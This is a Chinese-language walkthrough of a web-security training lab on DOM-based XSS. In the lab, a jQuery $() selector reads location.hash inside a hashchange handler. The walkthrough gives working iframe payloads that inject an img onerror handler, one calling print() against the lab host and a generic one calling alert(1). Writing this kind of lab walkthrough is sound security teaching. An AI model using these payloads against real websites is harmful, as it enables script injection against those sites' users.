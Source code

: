 # 题意
![](pic/7-2.png)
该实验中，home页面存在DOM型XSS。sink为$选择符，source为location.hash.
实验要求让受害者的浏览器调用print()函数。
# 解题思路
step1：打开开发者模式查看带有漏洞的代码处
![](pic/dev.png)

step2:打开exploit server
![](pic/server.png)

step3:在body处添加如下payload
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

注意，要将YOUR-LAB-ID改成当前实验的labid。

step4:分别点击View exploit和Deliver exploit to victim

可以看到print()被一直调用。


# 知识点
jQuery used to be extremely popular, and a classic DOM XSS vulnerability was caused by websites using this selector in conjunction with the location.hash source for animations or auto-scrolling to a particular element on the page. This behavior was often implemented using a vulnerable hashchange event handler, similar to the following:

JQuery过去十分流行。一种经典的DOM型XSS就由$选择符和location.hash分别作为sink和source造成的，经常伴随着一个有漏洞的事件handler：hashchange。例子如下：
```
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```

因为hash是用户可以控制的，所以攻击者可以利用这点向$()注入一个XSSvector。利用这个漏洞，需要找到一个不需要用户交互就能触发事件handler的方法，最简单的一种方法就是通过iframe：
```
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```


上例中，src参数带着一个空的hash值指向了漏洞页面，当该iframe被加载时，就会有一个XSSvector添加到hash中并触发hashchange。